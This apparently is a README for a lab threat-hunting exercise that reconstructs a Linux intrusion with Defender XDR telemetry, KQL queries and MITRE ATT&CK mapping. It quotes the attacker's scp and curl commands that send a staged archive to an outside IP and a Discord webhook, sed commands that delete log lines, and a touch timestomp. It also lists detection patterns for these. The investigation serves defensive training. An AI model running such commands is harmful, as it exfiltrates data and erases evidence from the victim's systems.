

# LIVEHunt 07: Rocky Clinic – Threat Hunting & Incident Investigation



## Executive Summary


During this investigation, a threat actor collected data, staged an archive, attempted SCP-based exfiltration, pivoted to a Discord webhook after egress controls blocked the initial transfer, and then performed anti-forensics activities including selective log deletion and timestamp manipulation.

The investigation leveraged Microsoft Defender XDR telemetry, KQL-based threat hunting, and MITRE ATT&CK mapping to reconstruct the full attack chain and identify successful defensive detections.

Threat hunting and incident investigation of a multi-stage Linux intrusion involving SCP exfiltration, Discord webhook abuse, log tampering, timestomping, and MITRE ATT&amp;CK mapping using Microsoft Defender XDR and KQL.

## Overview

This repository documents my investigation and analysis of **LIVEHunt 07 – Rocky Clinic**, a cyber threat hunting exercise focused on:

- Data Collection
- Exfiltration
- Defense Evasion
- Log Manipulation
- Timeline Distortion
- MITRE ATT&CK Mapping

The investigation was performed using Microsoft Defender Advanced Hunting (KQL) and followed an evidence-driven methodology to reconstruct attacker actions from telemetry.

---

# Objectives

Identify:

- Staged data archive
- Initial exfiltration attempt
- Successful exfiltration channel
- Exfiltration endpoint
- Log manipulation activity
- Timeline tampering
- EDR detections generated during attacker cleanup

---

# Environment

## Platform

Microsoft Defender XDR

## Data Sources

- DeviceProcessEvents
- DeviceNetworkEvents
- AlertInfo
- AlertEvidence

## Host

```text
rocky83
```

---

# Investigation Methodology

The investigation followed a simple workflow:

```text
Question
    ↓
Identify Artifact
    ↓
Process Events
    ↓
Network Events
    ↓
Alert Evidence
    ↓
Answer
```

This approach minimized assumptions and focused on evidence-based pivots.

---

# Phase 1 – Data Staging

## Discovery

The attacker created an archive containing collected data.

### Artifact

```text
integration_state_2026-02-10_22-00-01.tar.gz
```

### MITRE ATT&CK

```text
TA0009 - Collection
```

---

# Phase 2 – Initial Exfiltration Attempt

## Discovery

The attacker attempted to transfer the archive using SCP.

### Command

```bash
scp integration_state_2026-02-10_22-00-01.tar.gz streetrack@20.62.27.80:/home/streetrack/
```

### Observation

The transfer failed due to network restrictions.

### MITRE ATT&CK

```text
T1048
Exfiltration Over Alternative Protocol
```

---

# Phase 3 – Exfiltration Pivot

## Discovery

Following the failed SCP transfer, the attacker pivoted to a SaaS-based exfiltration method.

### Command

```bash
curl -F file=@integration_state_2026-02-10_22-00-01.tar.gz https://discord.com/api/webhooks/...
```

### Observation

The attacker leveraged a Discord webhook to blend exfiltration traffic with legitimate HTTPS activity.

### MITRE ATT&CK

```text
T1567.002
Exfiltration to Cloud Storage Service
```

---

# Phase 4 – Successful Exfiltration Endpoint

## Network Evidence

### Remote Endpoint

```text
162.159.135.232:443
```

### Observation

The successful exfiltration occurred over HTTPS using the Discord webhook infrastructure.

### MITRE ATT&CK

```text
T1071.001
Application Layer Protocol: Web Protocols
```

---

# Phase 5 – Selective Log Erasure

## Discovery

Rather than deleting logs entirely, the attacker selectively removed evidence.

### Tool Used

```bash
sed
```

### Distinct Log Manipulation Operations

```text
12
```

### Examples

```bash
sed -i '/it.admin/d' /var/log/secure
sed -i '/it.admin/d' /var/log/messages
sed -i '/useradd/d' /var/log/secure
sed -i '/integration-monitor/d' /var/log/messages
```

### Observation

The attacker attempted to remove evidence related to:

- Account creation
- Service modifications
- Persistence mechanisms
- Administrative activity

### MITRE ATT&CK

```text
T1070
Indicator Removal on Host
```

---

# Phase 6 – Timeline Distortion

## Discovery

The attacker manipulated file timestamps to obscure the sequence of events.

### Command

```bash
touch -d "2026-02-06 12:00:00" /var/log/messages
```

### Forged Timestamp

```text
2026-02-06 12:00:00
```

### Observation

The timestamp modification attempted to create a misleading investigation timeline.

### MITRE ATT&CK

```text
T1070.006
Timestomp
```

---

# Phase 7 – EDR Detection

## Alert Generated

```text
Suspicious timestamp modification
```

### Attack Techniques

```text
Indicator Removal (T1070)
Timestomp (T1070.006)
```

### Observation

Despite successful log manipulation, endpoint telemetry still generated an alert identifying the activity.

---

# Attack Timeline

| Phase | Activity |
|---------|---------|
| 1 | Archive Created |
| 2 | SCP Exfiltration Attempt |
| 3 | SCP Blocked |
| 4 | Pivot to Discord Webhook |
| 5 | Successful HTTPS Exfiltration |
| 6 | Selective Log Deletion |
| 7 | Timestamp Manipulation |
| 8 | EDR Detection Generated |

---

# Key Lessons Learned

## Exfiltration

Attackers frequently pivot when primary transfer methods fail.

Detection opportunities:

- SCP activity
- Unexpected curl uploads
- Cloud service abuse
- Webhook usage

---

## Defense Evasion

Selective deletion is often more effective than wholesale log removal.

Detection opportunities:

- sed -i usage
- truncate activity
- journalctl manipulation

---

## Timeline Manipulation

Timestamp modifications remain a powerful anti-forensics technique.

Detection opportunities:

- touch -d
- touch -t
- File metadata anomalies

---

# Skills Demonstrated

- Threat Hunting
- Incident Investigation
- Kusto Query Language (KQL)
- Microsoft Defender XDR
- MITRE ATT&CK Mapping
- Exfiltration Analysis
- Defense Evasion Detection
- Endpoint Telemetry Analysis
- Log Forensics
- Digital Forensics & Incident Response (DFIR)

---

# MITRE ATT&CK Techniques Observed

```text
T1048      Exfiltration Over Alternative Protocol
T1070      Indicator Removal on Host
T1070.006  Timestomp
T1071.001  Application Layer Protocol: Web Protocols
T1567.002  Exfiltration to Cloud Storage Service
```

---

# KQL Examples Used

## Identify Exfiltration Attempts

```kusto
DeviceProcessEvents
| where ProcessCommandLine has "integration_state"
| project Timestamp, ProcessCommandLine
```

## Investigate Network Connections

```kusto
DeviceNetworkEvents
| project Timestamp, RemoteIP, RemotePort, InitiatingProcessCommandLine
```

## Investigate Log Manipulation

```kusto
DeviceProcessEvents
| where ProcessCommandLine has "sed -i"
| project Timestamp, ProcessCommandLine
```

## Investigate Timeline Manipulation

```kusto
DeviceProcessEvents
| where ProcessCommandLine has "touch -d"
| project Timestamp, ProcessCommandLine
```

## Review EDR Alert Evidence

```kusto
AlertEvidence
| project Timestamp, Title, AttackTechniques
```

---

# Investigation Results

## Findings

- Identified staged archive used for data collection
- Traced failed SCP exfiltration attempt
- Identified successful Discord webhook exfiltration
- Determined exfiltration endpoint
- Detected selective log deletion activity
- Identified timestomping activity
- Correlated EDR detection with MITRE ATT&CK techniques

## Final MITRE Techniques

- T1048 – Exfiltration Over Alternative Protocol
- T1070 – Indicator Removal on Host
- T1070.006 – Timestomp
- T1071.001 – Web Protocols
- T1567.002 – Exfiltration to Cloud Storage Service

---

# Conclusion

This investigation reconstructed a complete attacker workflow from data staging through exfiltration, cleanup, and anti-forensics activity.

By correlating process telemetry, network telemetry, and EDR alert evidence, it was possible to identify attacker objectives, techniques, and successful defensive detections.

---

## Disclaimer

This repository documents a cybersecurity training exercise conducted in a controlled lab environment.

The content is intended for:

- Threat Hunting Education
- Incident Response Training
- Detection Engineering Practice
- MITRE ATT&CK Analysis

No production systems were accessed or modified.

All findings, commands, indicators, and telemetry originate from a sanctioned training environment.
The exercise demonstrated practical threat hunting, incident response, MITRE ATT&CK mapping, and Microsoft Defender XDR investigation skills using real telemetry and evidence-driven analysis.
